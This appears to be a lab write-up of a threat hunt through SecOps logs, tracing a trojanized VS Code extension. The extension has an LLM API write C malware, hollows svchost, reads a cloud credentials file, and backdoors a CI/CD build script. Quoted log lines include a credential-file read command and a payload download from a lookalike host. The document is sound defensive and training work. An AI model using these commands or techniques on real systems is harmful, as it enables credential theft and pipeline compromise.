


I searched proxy logs for AI API domains:

```
metadata.event_type = "NETWORK_HTTP" AND target.hostname = /huggingface|generativelanguage|openai|anthropic/ nocase
```

One hit, Zscaler log `9841285257713960002` at 19:31:35Z: `alex.chen` (Cloud Engineering & DevOps, 10.240.12.80) POSTed to `generativelanguage.googleapis.com/.../gemini-1.5-flash-latest:generateContent`. Three things say "malware", not "developer using Gemini":

- User agent **`node-fetch/3.3.2`**, a Node.js program, not a browser
- A hard-coded **API key in the URL query string**
- A small request/response (4.2 KB out, 14.2 KB in), consistent with a prompt asking for code

### Q2. Package downloaded just before the API call

**Answer: `SyntaxOptimizer-2.1.4.vsix`**




This was the hard one, and I went down several wrong paths first.

- I assumed an **npm** package because of `node-fetch`. Wrong. No npm registry traffic exists.
- Event `...961001` (19:50 UI-time browsing of `github.cymbal.corp/cloud-platform/deploy-configs`) is real context, though it's the target, not the delivery.
- Event `...961004` was GitHub Copilot background traffic.
- My searches kept returning other datasets (`wins-d19`, `serhatg.local`, `win-server.lunarstiiiness.com`), because I had no namespace filter and the wrong time range.

What cracked it was running a plain `principal.user.userid = "alex.chen"` search, which returned the timeline across *all* log types:

```
19:18:20Z  marketplace.visualstudio.com                      <- the real VS Code Marketplace
19:26:05Z  marketplace.visualstudio.com.cdn-cache.net        <- lookalike
19:27:50Z  node.exe launched by Code.exe
19:31:35Z  generativelanguage.googleapis.com (Gemini)
```

`marketplace.visualstudio.com.cdn-cache.net` is not Microsoft's domain; it is a subdomain of `cdn-cache.net` that *looks* like the Marketplace. Searching `target.hostname = "marketplace.visualstudio.com.cdn-cache.net"` returned log `9841285257713960001`:

```
GET https://marketplace.visualstudio.com.cdn-cache.net/extensions/DevTools/SyntaxOptimizer/2.1.4/SyntaxOptimizer-2.1.4.vsix
Referer: https://marketplace.visualstudio.com/items?itemName=DevTools.SyntaxOptimizer
User-Agent: VSCode/1.89.1
```

So Alex found the extension on the real Marketplace page, but the download itself was served from the lookalike host. A VS Code extension runs inside a Node.js extension host, which explains the `node-fetch` user agent.

### Q3. Compiled executable dropped into the staging directory

**Answer: `sys_worker.exe`**




The host timeline for `CYM-DEV-WS-019.cymbal.corp` shows the "AI writes code, malware compiles it" loop:

| Time (UTC) | Event |
|---|---|
| 19:32:00 | `node.exe` creates `thinking_robot_log.txt` (LLM output log) |
| 19:32:20 | `node.exe` creates `cache_worker.c` (model-written C source) |
| 19:33:05 | `gcc.exe` launched by `node.exe` |
| 19:41:00 | `sys_worker.exe` in `AppData\Local\Temp` |

The `PROCESS_MODULE_LOAD` event for it (Sysmon `104828`) has the compile command line:

```
gcc.exe -O2 C:\Users\alex.chen\AppData\Local\Temp\cache_worker.c -o C:\Users\alex.chen\AppData\Local\Temp\sys_worker.exe
```

The parent process is `node.exe` running `...\.vscode\extensions\devtools.syntaxoptimizer-2.1.4\out\optimizer-daemon.js`. That ties the whole chain to the malicious extension. The staging directory is `AppData\Local\Temp`.

My first searches for `.exe` file creations on the host returned nothing, because the executable shows up under a *module load* event type, not `FILE_CREATION`. Dropping all my filters and reading the full host timeline found it.

### Q4. File read by the hollowed process

**Answer: `credentials.db`**

The same Sysmon event 8 (`104828`, tagged **T1055.012, Process Hollowing**) shows `sys_worker.exe` injecting into **`svchost.exe` PID 624**, running as `NT AUTHORITY\SYSTEM`.

Then, at 19:54:00Z (Sysmon `104830`), `svchost.exe -k netsvcs -p` (PID 624) spawns:

```
cmd.exe /c "type C:\Users\alex.chen\.gcloud\credentials.db"
```

Tagged T1003.008 (cloud token theft). Searches against the usual `AppData\Roaming\gcloud\` location found nothing because this lab puts the config at **`C:\Users\alex.chen\.gcloud\`**. I found the event with:

```
principal.hostname = "CYM-DEV-WS-019.cymbal.corp" AND principal.process.file.full_path = /svchost/ nocase
```

An `svchost.exe` that spawns `cmd.exe` in a user session and then reads a credentials file is hollowing in action.

### Q5. External domain receiving the stolen data

**Answer: `dev-metrics-cdn.com`**





Looking at all of `alex.chen`'s web traffic after the token read, one destination stands out:

```
20:01:30Z  dev-metrics-cdn.com            <- unfamiliar, "telemetry"-style name
20:07:50Z  slack.com                      <- legitimate
20:51:05Z  cr.cymbal.corp                 <- internal (container registry: the likely CI/CD target)
```

It is the only unknown external domain, it appears about 7.5 minutes after the token read, and the name matches the question's "masquerading as a telemetry endpoint".

**Caveat:** my timeline view didn't show the HTTP method or URL path, so I did not see the POST or the `/telemetry`-style URI directly. If this is rejected, search `target.hostname = "dev-metrics-cdn.com"` and read `target.url` and `network.http.method`.

### Q6. PowerShell script overwritten on the secondary server

**Answer: `build_production.ps1`**





Lateral movement is the part where I initially guessed wrong. The timeline showed `sarah.jenkins` on several servers, so I assumed she was the "harvested service account". She wasn't.

Searching `.ps1` in Sysmon command lines (scoped to the Cymbal namespace) gave me the first real clue, log `45890` at 20:31:05Z on **`CYM-CI-RUNNER-01.cymbal.corp`**:

```
cmd.exe /c "copy C:\BuildRunner\scripts\build_production.ps1 C:\BuildRunner\backups\build_production.ps1.bak"
```

The attacker **backed up the original script**. Then a `principal.hostname = "CYM-CI-RUNNER-01.cymbal.corp"` search gave the rest:

- **21:03:50Z**: `wsmprovhost.exe` launched as **`svc_cicd_deploy`**. That's the harvested CI/CD service account, running over WinRM.
- **21:10:50Z**: Sysmon event 11 (`45915`): `powershell.exe` (parent `wsmprovhost.exe`) writes **`C:\BuildRunner\scripts\build_production.ps1`**, tagged **T1505.003**.

Backup first, then overwrite, executed through remoting using the stolen account. A build script gets run on every pipeline execution, so overwriting it gives the attacker code execution inside the CI/CD pipeline.

### Rogue Synthesis: attack chain

```
19:18  Alex finds SyntaxOptimizer on the real Marketplace
19:26  .vsix downloaded from the lookalike marketplace.visualstudio.com.cdn-cache.net
19:27  Extension host starts node.exe
19:31  node-fetch calls Gemini; model writes C code (cache_worker.c)
19:33  gcc compiles it to sys_worker.exe
19:41  sys_worker.exe hollows svchost.exe (PID 624)
19:54  Injected svchost spawns cmd.exe: type ...\.gcloud\credentials.db
20:01  Stolen data sent to dev-metrics-cdn.com
20:31  Attacker backs up build_production.ps1 on CYM-CI-RUNNER-01
21:03  svc_cicd_deploy opens a WinRM session
21:10  build_production.ps1 overwritten -> pipeline persistence
```

### Answers

| # | Answer |
|---|---|
| 1 | `alex.chen` |
| 2 | `SyntaxOptimizer-2.1.4.vsix` |
| 3 | `sys_worker.exe` |
| 4 | `credentials.db` |
| 5 | `dev-metrics-cdn.com` |
| 6 | `build_production.ps1` |


## Cross-Case Patterns

The three cases share a toolkit, which helps with hunting.

| Technique | OAuth Heist | Rogue Synthesis | Deceptive Click |
|---|---|---|---|
| Initial access | Credential phishing, lookalike SSO | Trojanized VS Code extension from lookalike host | Compromised blog → fake Chrome update |
| Lookalike domain | `sso-cymbal-portal.com` | `marketplace.visualstudio.com.cdn-cache.net` | `static.cdn-updater-distribution.net` |
| Privilege escalation | n/a (valid creds) | Hollow `svchost.exe` (T1055.012) | Hollow `svchost.exe` (T1055.012) |
| Credential access | Creds in a Drive PDF | `.gcloud\credentials.db` | Kerberoast (RC4 `0x17`) |
| Lateral movement | NTLM logon → WinRM | WinRM (`wsmprovhost.exe`) | WinRM (`wsmprovhost.exe`) |
| Goal | Customer DB exfil | CI/CD pipeline backdoor | Financial audit data |

**Detection ideas worth keeping**

- `svchost.exe` that spawns `cmd.exe` or PowerShell under a *user* session, or that is the target of a Sysmon 8 event.
- `wsmprovhost.exe` as the parent of recon, backup, archive, or script-write commands.
- Kerberos 4769 events with encryption type `0x17`, especially for SQL SPNs requested by non-IT users.
- Proxy hostnames where a trusted brand is a *subdomain* of an unrelated domain (`<brand>.com.<other>.net`).
- A new MFA factor from an anonymizing proxy IP, followed within an hour by an OAuth grant with mail-modify scope.
- VS Code extension downloads from any host other than `marketplace.visualstudio.com`.
- Large HTTP POST bodies (hundreds of MB) to unclassified hosting-provider IPs on non-standard ports.

## SecOps Lessons

1. **Fix the time window first.** Absolute range, UTC, covering 2026-10-15. Most of my "No results found" were this, not bad queries.
2. **Scope by namespace.** `metadata.base_labels.namespaces = "Cymbal"` removes the Demoverse sample data that keeps polluting results.
3. **Start broad, then narrow.** When a narrow UDM filter returns nothing, drop everything but the user or host. The unfiltered timeline found what filtered searches missed (the module load for `sys_worker.exe`, the lookalike marketplace host).
4. **Field names vary by log source.** Drive file names are in `target.resource.name`, not `target.file.full_path`. SPNs are in `target.application`. Sysmon puts commands in `target.process.command_line`.
5. **Event types don't match intuition.** A compiled executable appeared as `PROCESS_MODULE_LOAD`; file reads appeared as `PROCESS_LAUNCH` with `cmd /c type`.
6. **Don't submit inferred answers.** My guessed exfil URL was wrong until I found the proxy event. Where I'm still inferring (OAuth Heist Q1 and Q2, Rogue Synthesis Q5, Deceptive Click Q2), I've said so above, along with the query that would confirm each.
7. **Watch for distractors.** `sarah.jenkins` appears in three different places in the data and was never the attacker's account; `svc_backup`, `svc_dbadmin` and `svc_cicd_deploy` were.

## Items to Verify If an Answer Is Rejected

| Case / Q | What I'd check |
|---|---|
| OAuth Heist Q1 | Search `target.hostname = "sso-cymbal-portal.com" AND network.http.method = "POST"` to confirm the credential submission |
| OAuth Heist Q2 | Search Gmail activity for delete events by `ToogleBox Recall`; the alternative subject is `Security alert: New macOS device registered to your account` |
| Rogue Synthesis Q5 | Search `target.hostname = "dev-metrics-cdn.com"` and confirm a POST to a `/telemetry`-style path |
| Deceptive Click Q2 | Find the zip download proxy event and read `network.http.referral_url` |